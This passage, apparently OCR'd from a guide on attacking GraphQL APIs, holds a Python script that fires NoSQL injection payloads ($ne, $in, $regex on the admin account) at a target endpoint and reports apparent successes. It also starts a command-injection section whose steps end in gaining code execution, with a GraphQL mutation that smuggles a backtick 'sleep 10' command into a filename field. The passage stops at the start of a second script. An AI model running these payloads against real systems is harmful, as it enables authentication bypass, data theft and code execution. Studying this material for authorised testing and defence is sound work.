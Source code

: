        def test_nosql_injection(url):
           headers = {"Content-Type": "application/json"}
           
           # MongoDB-style NoSQL injection payloads
           payloads = [
               {"query": """{ user(username: {$ne: null}) { id username email } }"""},
               {"query": """{ user(username: {$in: ["admin", "administrator"]}) { id username email } }"""},
               {"query": """{ user(username: "admin", password: {$regex: "^a"}) { id username email } }"""},
           ]
           
           for i, payload in enumerate(payloads):
               print(f"[*] Testing payload {i+1}: {payload}")
               
               response = requests.post(url, headers=headers, json=payload)
               
               if response.status_code == 200:
                   try:
                       result = response.json()
                       print(f"[*] Response: {json.dumps(result, indent=2)}")
                       
                       # Check for signs of successful injection
                       if "data" in result and result["data"] and result["data"].get("user"):
                           if isinstance(result["data"]["user"], list) and len(result["data"]["user"]) > 0:
                               print("[+] Possible NoSQL injection - records returned")
                           elif result["data"]["user"]:
                               print("[+] Single record returned - possible injection")
                   except:
                       print("[-] Failed to parse JSON response")
               else:
                   print(f"[-] Request failed with status code {response.status_code}")
               
               print("-" * 50)
       
       # Example usage
       test_nosql_injection("https://target.com/graphql")
       ```
    
    4. **Command injection via arguments**:
       - Step 1: Identify arguments that might be passed to system commands
       - Step 2: Test basic command injection payloads
       - Step 3: Look for timing delays or command output in responses
       - Step 4: Use out-of-band techniques to confirm blind injections
       - Step 5: Escalate to achieve code execution
       - Example command injection in GraphQL:
       ```graphql
       mutation {
         generateReport(format: "pdf", filename: "report`sleep 10`") {
           downloadUrl
         }
       }
       ```
       - Python script for command injection testing:
       ```python
       import requests
       import time
       